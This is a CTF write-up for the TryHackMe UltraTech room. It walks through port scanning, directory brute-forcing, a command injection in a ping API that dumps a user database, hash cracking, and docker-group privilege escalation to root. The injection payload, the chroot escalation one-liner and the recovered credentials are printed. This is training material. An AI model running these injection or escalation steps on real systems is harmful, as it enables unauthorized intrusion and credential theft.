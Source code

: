 ```yaml
---
title: "UltraTech CTF - TryHackMe"
author: Ludovic COULON
date: 2020-06-14
hero: ./images/hero.png
excerpt: "Writeup for the UltraTech CTF room on TryHackMe"
---
```


[TryHackMe | UltraTech CTF](https://tryhackme.com/room/ultratech1)

This room is inspired from real-life vulnerabilities and misconfigurations I encountered during security assessments.

If you get stuck at some point, take some time to keep enumerating.

**[ Your Mission ]**

You have been contracted by UltraTech to pentest their infrastructure.

It is a grey-box kind of assessment, the only information you have

is the company's name and their server's IP address.

**Start this room by hitting the "deploy" button on the right!**

Good luck and more importantly, have fun!

# Part 1

After enumerating the services and resources available on this machine, what did you discover?

---

### Setup ✅

```bash
➜  TryHackMe nmap -A -vv 10.10.124.2
```

```bash
21/tcp   open  ftp     syn-ack vsftpd 3.0.3

22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDiFl7iswZsMnnI2RuX0ezMMVjUXFY1lJmZr3+H701ZA6nJUb2ymZyXusE/wuqL4BZ+x5gF2DLLRH7fdJkdebuuaMpQtQfEdsOMT+JakQgCDls38FH1jcrpGI3MY55eHcSilT/EsErmuvYv1s3Yvqds6xoxyvGgdptdqiaj4KFBNSDVneCSF/K7IQdbavM3Q7SgKchHJUHt6XO3gICmZmq8tSAdd2b2Ik/rYzpIiyMtfP3iWsyVgjR/q8oR08C2lFpPN8uSyIHkeH1py0aGl+V1E7j2yvVMIb4m3jGtLWH89iePTXmfLkin2feT6qAm7acdktZRJTjaJ8lEMFTHEijJ
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLy2NkFfAZMY462Bf2wSIGzla3CDXwLNlGEpaCs1Uj55Psxk5Go/Y6Cw52NEljhi9fiXOOkIxpBEC8bOvEcNeNY=
|   256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEipoohPz5HURhNfvE+WYz4Hc26k5ObMPnAQNoUDsge3

8081/tcp open  http    syn-ack Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesnt have a title (text/html; charset=utf-8).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### #1 Which software is using the port 8081?

```bash
8081/tcp open  http    syn-ack Node.js Express framework
```

```bash
node.js
```

### #2 Which other non-standard port is used?

Since on our first nmap scan we didn't find the port let's scan all the ports

```bash
➜  ~ TryHackMe nmap -A -vv -p- 10.10.124.2
```

```bash
31331/tcp open
```

### #3 Which software using this port?

```bash
apache
```

### #4 Which GNU/Linux distribution seems to be used?

```bash
ubuntu
```

### #5 The software using the port 8080 is a REST api, how many of its routes are used by the web application?

<div className="Image__Medium">
  <img src="https://imgur.com/HJrW4R2.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe gobuster dir -u http://10.10.124.2:8081/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.124.2:8081/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/13 17:44:16 Starting gobuster
===============================================================
/auth (Status: 200)
```

<div className="Image__Medium">
  <img src="https://imgur.com/8hEyF02.png" alt="blog_image" />
</div>

# Part 3

---

Now that you know which services are available, it's time to exploit them !

Did you find somewhere you could try to login ? Great !

Quick and dirty login implementations usually goes with poor data management.

There must be something you can do to explore this machine more thoroughly..

### #1 There is a database lying around, what is its filename?

<div className="Image__Medium">
  <img src="https://imgur.com/tuO0kgU.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe dirb http://10.10.124.2:31331/
```

```bash
➜  TryHackMe dirb http://10.10.124.2:31331/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Jun 13 18:30:24 2020
URL_BASE: http://10.10.124.2:31331/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.124.2:31331/ ----
==> DIRECTORY: http://10.10.124.2:31331/css/
+ http://10.10.124.2:31331/favicon.ico (CODE:200|SIZE:15086)
==> DIRECTORY: http://10.10.124.2:31331/images/
+ http://10.10.124.2:31331/index.html (CODE:200|SIZE:6092)
==> DIRECTORY: http://10.10.124.2:31331/javascript/
==> DIRECTORY: http://10.10.124.2:31331/js/
+ http://10.10.124.2:31331/robots.txt (CODE:200|SIZE:53)
+ http://10.10.124.2:31331/server-status (CODE:403|SIZE:302)
```

<div className="Image__Medium">
  <img src="https://imgur.com/JwcnH47.png" alt="blog_image" />
</div>

```bash
Sitemap: /utech_sitemap.txt
```

<div className="Image__Medium">
  <img src="https://imgur.com/0QGLxrF.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/4oxDK1P.png" alt="blog_image" />
</div>

As you can see there is some script on the bottom of the page

<div className="Image__Medium">
  <img src="https://imgur.com/bHSVNrk.png" alt="blog_image" />
</div>

```bash
function getAPIURL() {
return `${window.location.hostname}:8081`
function checkAPIStatus() {
const req = new XMLHttpRequest();
const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
```

Let's try if we can ping something with the api

<div className="Image__Medium">
  <img src="https://imgur.com/k6dMvGz.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/NiZaChE.png" alt="blog_image" />
</div>

```bash
utech.db.sqlite
```

### #2 What is the first user's password hash?

After some tries, something cool happened, if we cat the database name we can see the user's password hash

```bash
http://10.10.124.2:8081/ping?ip=`cat%20utech.db.sqlite`
```

<div className="Image__Medium">
  <img src="https://imgur.com/BFY62ek.png" alt="blog_image" />
</div>

```bash
r00tf357a0c52799563c7c7b76c1e7543a32
```

### #3 What is the password associated with this hash?

Let's see if in the crack station database we can have the user's password

<div className="Image__Medium">
  <img src="https://imgur.com/ULh9XYu.png" alt="blog_image" />
</div>

Yep ! That worked 🤤

```bash
password : n100906
```

# Part 4

---

Congrats if you've made it this far, you should be able to comfortably run commands on the server by now!

Now's the time for the final step!

You'll be on your own for this one, there is only one question and there might be more than a single way to reach your goal.

Mistakes were made, take advantage of it.

---

### #1 What are the first 9 characters of the root user's private SSH key?

We can try the api "/auth" 😵

<div className="Image__Medium">
  <img src="https://imgur.com/hQLygDy.png" alt="blog_image" />
</div>

```bash
http://10.10.124.2:8081/auth?login=r00t&password=n100906
```

<div className="Image__Medium">
  <img src="https://imgur.com/k8UD4e5.png" alt="blog_image" />
</div>

As you can see the is the group docker let's try something

[docker | GTFOBins](https://gtfobins.github.io/gtfobins/docker/)

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

<div className="Image__Medium">
  <img src="https://imgur.com/dlyIsfn.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/WZFA2m7.png" alt="blog_image" />
</div>

```bash
MIIEogIBA
```
